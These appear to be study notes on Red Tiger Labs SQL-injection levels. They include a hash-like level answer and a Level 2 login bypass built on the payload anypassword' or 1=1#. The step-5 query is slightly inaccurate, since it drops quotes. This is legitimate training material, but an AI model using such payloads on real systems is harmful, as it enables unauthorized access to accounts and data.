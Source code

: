 ```sql
password: passwords_will_change_over_time_let_us_do_a_shitty_rhyme 
increase wellnet score usin: 27cbddc803ecde822d87a7e8639f9315
```

### Question?

Q. Why does the username and password as a string match the datatype of the returned integer column?

—> Not necessary to match the database

Q. How to hypothesize the SQL query?

—> Depends on the condition and type of the database. The skill increases with experience.

## Level 2: Simple Login By-Pass

1. Hypothesis

```sql
select * from ? where un='$username' and pw='$password'
```

2. Enter any type of user name

3. Enter any password say aa

4. Concat the extra sql query as

```sql
anypassword' or 1=1# 
```

5. This causes the sql query to be executed as:

```sql
select * from ? where un=$username and pw = $password or 1=1
```

![2%201%20Red%20Tiger%20Labs%2023543885813e45a99ee35509954b82cf/Untitled.png](2%201%20Red%20Tiger%20Labs%2023543885813e45a99ee35509954b82cf/Untitled.png)
